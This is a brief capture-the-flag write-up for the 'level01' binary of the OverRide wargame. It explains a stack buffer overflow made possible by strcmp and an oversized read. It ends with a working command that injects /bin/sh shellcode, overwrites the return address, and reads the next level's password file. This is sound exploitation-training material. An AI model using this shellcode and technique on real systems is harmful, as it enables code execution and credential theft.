 # Buffer Overflow

see source.c

## Analysis

Seeing that the verify_user_name function is using strcmp and not strncmp that means that we can add everything we want after 'dat_wil', then because the buffer on the main function is 64 bytes and we are reading 100 bytes that means we can get over the stack and replace eip to jump on a payload.

So we add the payload after 'dat_wil' username, then using gdb we locate the eip, subtract by the size of the location of the buffer we can know how many characters we have to write (80 + address of jmp there)

And 'Voilà'


```
level01@OverRide:~$ (python -c "print('dat_wil' + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')" ; python -c "print('A' * 80 + '\x47\xa0\x04\x08')"; echo "cat /home/users/level02/.pass") | ./level01 
```
